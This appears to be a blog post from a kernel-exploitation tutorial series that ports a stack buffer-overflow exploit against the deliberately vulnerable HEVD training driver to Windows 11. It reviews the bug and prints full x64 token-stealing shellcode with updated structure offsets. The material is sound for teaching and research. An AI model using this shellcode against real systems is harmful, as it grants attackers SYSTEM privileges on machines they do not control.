


It's finally time, let's port the buffer overflow exploit from the last couple of posts to the most recent version of Windows 11.

If you're just joining, you'll likely want to go back and review at least [post 7](https://stolenfootball.github.io/posts/series/windows_drivers/p7_buffer_overflow_win7/) and [post 8](https://stolenfootball.github.io/posts/series/windows_drivers/p8_smep_bypass/) in this series to understand the exploit and what we've done so far. 

To follow along with this post, you're going to want both a Windows 11 debugee VM with the [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) driver installed and an IDA decompilation of the driver rebased to match a snapshot of the VM.  If you need any instruction on how to do that, see [post 6](https://stolenfootball.github.io/posts/series/windows_drivers/p8_smep_bypass/) and the [kernel debugger setup post](https://stolenfootball.github.io/posts/research/2025/windows_kernel_debugger/).

## Review of the bug
The `0x222003` IOCTL of HEVD passes a buffer and it's size from the user into the following function:



At line 15 in the IDA decompilation, a `memmove` is performed from the user provided buffer into a statically sized stack based buffer in the kernel.  Because the function accepts an arbitrarily sized buffer from the user and the size given to `memmove` is the number of bytes in the user buffer, we are able to overflow the kernel stack by an arbitrary amount from this function.

Our exploit code in the last post overflowed the kernel buffer and the three callee saved registers of this function, then used an overflow of the return address to control execution flow.  We then used a ROP chain to disable SMEP and jump to shellcode in user space.  The shellcode used token stealing to perform privilege escalation of the exploit code, then fixed the kernel stack to restore execution and exit cleanly.

## Port the exploit to Windows 11
Before we start worrying about new mitigations, let's modify the exploit so the code can run on Windows 11.

First, we need to modify a couple of offsets in the shellcode.  Although the Windows permissions model didn't change between Windows 8 and Windows 11, some of the data structures were updated.  This means some of the information we need for the shellcode is at different offsets from the base of the containing struct in Windows 11 than it was in Windows 8.

Updating the shellcode is easy, and I'd recommend doing it yourself as an exercise if you're following along. The ability to update shellcode for different OS versions is a good skill to have, and would be a nice resume item if you're job hunting.

All you need to do is check each data structure using WinDbg to make sure we're still accessing the right field.

For example, to check the offset of the PID in the EPROCESS struct, set a breakpoint and run the following in WinDbg:

```dbg
dt nt!_EPROCESS -d UniqueProcessId
```



From this, we can see the PID offset in the EPROCESS struct has changed from `0x2e0` in Windows 8 to `0x1d0` in Windows 11.

This is the exact same shellcode as we've been using right along so I'm not going to explain it again, but here is the full version with the Windows 11 offsets.

```asm
; Author: @stolenfootball
; Website: https://stolenfootball.github.io

[BITS 64]

%define SYSTEM_PID      0x4

%define KTHREAD_OFFSET  0x188           ; Offset of KTHREAD in GS segment.  Obtained from nt!PsGetCurrentProcess
%define EPROCESS_OFFSET 0xb8            ; Offset of EPROCESS in KTHREAD.  Obtained from nt!PsGetCurrentProcess
%define FLINK_OFFSET    0x1d8           ; nt!_EPROCESS -d ActiveProcessLinks
%define PID_OFFSET      0x1d0           ; nt!_EPROCESS -d UniqueProcessId
%define TOKEN_OFFSET    0x248           ; nt!_EPROCESS -d Token

_start:
    push rax                            ; Save register state
    push rbx
    push rcx

    ; Start of Token Stealing Stub 

    mov rax, [gs:KTHREAD_OFFSET]        ; Get KTHREAD of current thread 
    mov rax, [rax + EPROCESS_OFFSET]    ; Get current EPROCESS from KTHREAD
    
    mov rbx, rax                        ; Store current EPROCESS pointer in rbx

    __search_system_pid_loop:
        mov rax, [rax + FLINK_OFFSET]   ; Get the next active process in the list
        sub rax, FLINK_OFFSET           ; Go to the start of the EPROCESS struct
        mov rcx, [rax + PID_OFFSET]     ; Put the PID of this process into rcx
        cmp rcx, SYSTEM_PID             ; Compare the PID of the process to SYSTEM
        jne __search_system_pid_loop

    mov rcx, [rax + TOKEN_OFFSET]       ; Get a pointer to SYSTEM token
    and cl, 0xf0                        ; Clear the reference count
    mov [rbx + TOKEN_OFFSET], rcx       ; Copy SYSTEM token to current process

    ; End of Token Stealing Stub

    ; Recovery stub here
    ; ...
    ; End of recovery stub

    pop rcx                             ; Restore registers
    pop rbx
    pop rax
    
    ret  
```


